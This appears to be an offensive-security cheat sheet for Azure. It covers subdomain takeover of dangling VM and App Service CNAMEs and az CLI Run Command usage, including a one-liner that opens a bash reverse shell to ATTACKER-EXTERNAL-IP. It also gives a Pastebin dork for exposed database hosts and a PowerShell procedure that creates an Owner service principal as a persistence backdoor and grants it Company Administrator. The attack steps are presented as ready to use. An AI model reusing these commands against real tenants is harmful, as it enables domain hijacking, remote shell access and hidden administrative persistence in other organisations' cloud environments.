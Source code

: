 ```text
    1 Check CNAME with dig pointing to *.region.cloudapp.azure.com
    2 Registering a new VM in the same region with size Standard_B1ls (cheapest) with 80 and 443 open
    3 Go to Configuration and set the domain name which CNAME is pointing    
```

## **Other Azure Services**

```text
# Azure App Services Subdomain Takeover
- For target example.com you found users.example.com
- Go https://users.galaxybutter.com and got an error
- dig CNAME users.galaxybutter.com and get an Azure App Services probably deprecated or removed
- Creat an App Service and point it to the missing CNAME
- Add a custom domain to the App Service
- Show custom content

# Azure Run Command
# Feature that allows you to execute commands without requiring SSH or SMB/RDP access to a machine. This is very similar to AWS SSM.
az login
az login --use-device-code #Login
az group list #List groups
az vm list -g GROUP-NAME #List VMs inside group
#Linux VM
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunShellScript --scripts "id"
#Windos VM
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunPowerShellScript --scripts "whoami"
# Linux Reverse Shell Azure Command
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunShellScript --scripts "bash -c \"bash -i >& /dev/tcp/ATTACKER-EXTERNAL-IP/9090 0>&1\""

# Azure SQL Databases
- MSSQL syntaxis
- Dorks: "database.windows.net" site:pastebin.com

# Azure AD commands
az ad sp list --all
az ad app list --all

# Azure metadata service
http://169.254.169.254/metadata/instance
https://github.com/microsoft/azureimds
```

### Create Azure service principal as backdoor

```text
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
$BSTR = ::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = ::PtrToStringAuto($BSTR)
$UnsecureSecret
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -
RoleMemberObjectId $sp.ObjectId
#Enter the AppID as username and what was returned for $UnsecureSecret as the password
in the Get-Credential prompt
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```
